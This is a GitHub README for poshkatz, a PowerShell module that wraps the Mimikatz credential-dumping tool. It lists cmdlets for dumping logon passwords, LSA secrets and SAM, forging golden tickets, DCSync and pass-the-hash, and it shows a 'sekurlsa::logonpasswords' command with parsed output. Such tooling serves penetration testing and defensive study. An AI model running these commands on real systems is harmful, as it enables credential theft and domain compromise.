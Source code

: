 poshkatz
==================
![](./images/logo.png) 

poshkatz is a PowerShell module for Mimikatz that has a number of cool features!

**Brought to you by:**  
[Adam Driscoll](https://poshtools.com/)  
[Lee Berg](https://leealanberg.com/)


## Features ##

### Mimiktaz tab expansion "autocomplete"

Autocompletes mimikatz commands, parameters and paramter values.

![](./images/tabexpansion.gif)

### Cmdlet wrappers for Mimikatz features

- Export-MKKerberosTicket
- Get-MKCredentialVault
- Get-MKCredentialVaultCredential
- Get-MKKerberosTicket
- Get-MKLogonPassword
- Get-MKLsaCache
- Get-MKLsaSam
- Get-MKLsaSecret
- Get-MKTicket
- Grant-MKKerberosGoldenTicket
- Invoke-MKDcSync
- Invoke-MKPassTheHash

### Convert Mimikatz output into PowerShell Objects

```
PS C:\> mimikatz sekurlsa::logonpasswords exit | ConvertFrom-MKOutput -OutputType LogonPasswords


Domain           : Window Manager
NTLMHash         :
UserName         : DWM-1
SID              : S-1-5-90-1
Password         : (null)
LogonTime        : 10/16/2018 11:27:50 AM
SHA1Hash         :
LogonServer      : (null)
AuthenticationId : 0 ; 48064 (00000000:0000bbc0)
Session          : Interactive from 1

Domain           : IRONMAN
NTLMHash         :
UserName         : IRONMANDC1$
SID              : S-1-5-20
Password         : (null)
LogonTime        : 10/16/2018 11:27:50 AM
SHA1Hash         :
LogonServer      : (null)
AuthenticationId : 0 ; 996 (00000000:000003e4)
Session          : Service from 0
```

## Getting Started ##
1. Install [git](https://git-scm.com/download) 
2. Install posh-git via PowerShell
    > install-module posh-git
3. Build or Download a fresh copy of [mimikatz](https://github.com/gentilkiwi/mimikatz)
4. Ensure mimikatz.exe is in your environmental PATH variables
5. Import the poshkatz module
    > Import-Module poshkatz.psd1
6. Have some fun
    > Get-MKLogonPassword

## Shout out ##

This project was heavily based on [posh-git](https://github.com/dahlbyk/posh-git).
